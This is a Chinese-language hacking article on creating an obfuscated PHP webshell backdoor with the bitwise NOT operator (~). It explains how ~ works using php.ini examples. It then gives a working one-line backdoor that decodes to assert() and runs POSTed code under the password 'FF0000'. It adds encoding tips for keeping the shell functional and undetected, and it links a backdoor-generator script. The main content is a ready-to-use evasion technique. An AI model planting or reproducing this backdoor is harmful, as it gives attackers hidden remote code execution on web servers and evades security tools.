  

    .::PHP中使用按位取反(~)函数创建后门::.

    We enjoy hacking of life in day and night.

    _______________________________________________
				
    [+] Author: Evi1m0 <evi1m0.bat#gmail.com>
    [+] Team: FF0000 TEAM <http://www.ff0000.cc>
    [+] From: HackerSoul <http://www.hackersoul.com>
    [+] Create: 2014-02-04
    _______________________________________________


    -= Main =-

1）PHP ~位运算符
前一段时间老外在twitter上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符

    http://www.php.net/manual/zh/language.operators.bitwise.php
    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然

PHP 的 ini 设定 `error_reporting `使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。
php.ini 中是这样用的： `E_ALL & ~E_NOTICE `
具体运作方式是先取得 E_ALL 的值：` 00000000000000000111011111111111 `
再取得 E_NOTICE 的值： `00000000000000000000000000001000 `
然后通过 ~ 将其取反：` 11111111111111111111111111110111 `
最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： `00000000000000000111011111110111`

2）分析并重现
这个就是当时最原始的代码实现效果：

![Alt text](./img/20140901-03.jpg)

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？
后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

![Alt text](./img/20140901-04.jpg)

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>

那么我们便可以开始写一句话试试效果了：

![Alt text](./img/20140901-05.jpg)

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

3）关于编码与免杀
当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。
实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

![Alt text](./img/20140901-06.png)

4）留在最后
我们写了一个小脚本为了方便生成：http://www.hackersoul.com/tools/Createbackdoor-1.php
使用方法：`Createbackdoor-1.php?pwd=password`

url:http://hackersoul.com/post/PHP%E4%B8%AD%E4%BD%BF%E7%94%A8%E6%8C%89%E4%BD%8D%E5%8F%96%E5%8F%8D%E5%87%BD%E6%95%B0%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8.html

    -= END =- 